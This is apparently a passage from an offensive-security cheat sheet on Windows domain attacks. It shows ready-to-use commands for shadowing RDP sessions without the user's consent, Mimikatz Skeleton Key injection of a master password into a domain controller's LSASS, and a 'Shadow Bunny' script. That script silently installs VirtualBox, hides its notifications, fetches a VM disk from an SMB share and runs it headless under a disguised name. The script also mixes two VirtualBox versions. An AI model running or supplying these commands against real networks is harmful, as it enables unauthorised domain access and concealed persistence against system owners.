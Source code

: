 ```powershell
# /noconsentprompt parameter allows to bypass a shadowee’s permission and shadow their session without their consent;
# /prompt parameter is used to specify a user’s credentials to connect to a remote host.
```

### Skeleton Key

> Inject a master password into the LSASS process of a Domain Controller.

Requirements:
* Domain Administrator (SeDebugPrivilege) or `NTAUTHORITY\SYSTEM`

```powershell
# Execute the skeleton key attack
mimikatz "privilege::debug" "misc::skeleton"
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DCs FQDN>

# Access using the password "mimikatz"
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```


### Virtual Machines

> Based on the Shadow Bunny technique.

```ps1
# download virtualbox
Invoke-WebRequest "https://download.virtualbox.org/virtualbox/6.1.8/VirtualBox-6.1.8-137981-Win.exe" -OutFile $env:TEMP\VirtualBox-6.1.8-137981-Win.exe

# perform a silent install and avoid creating desktop and quick launch icons
VirtualBox-6.0.14-133895-Win.exe --silent --ignore-reboot --msiparams VBOX_INSTALLDESKTOPSHORTCUT=0,VBOX_INSTALLQUICKLAUNCHSHORTCUT=0

# in \Program Files\Oracle\VirtualBox\VBoxManage.exe
# Disabling notifications
.\VBoxManage.exe setextradata global GUI/SuppressMessages "all" 

# Download the Virtual machine disk
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd

# Create a new VM
$vmname = "IT Recovery"
.\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register

# Add a network card in NAT mode
.\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
.\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
.\VBoxManage.exe modifyvm $vmname --nic1 nat
.\VBoxManage.exe modifyvm $vmname --audio none
.\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
.\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"

# Mount the VHD file
.\VBoxManage.exe storagectl $vmname -name "SATA Controller" -add sata
.\VBoxManage.exe storageattach $vmname -comment "Shadowbunny Disk" -storagectl "SATA Controller" -type hdd -medium "$env:USERPROFILE\VirtualBox VMs\IT Recovery\shadowbunny.vhd" -port 0

# Start the VM
.\VBoxManage.exe startvm $vmname –type headless 


# optional - adding a shared folder
# require: VirtualBox Guest Additions
```
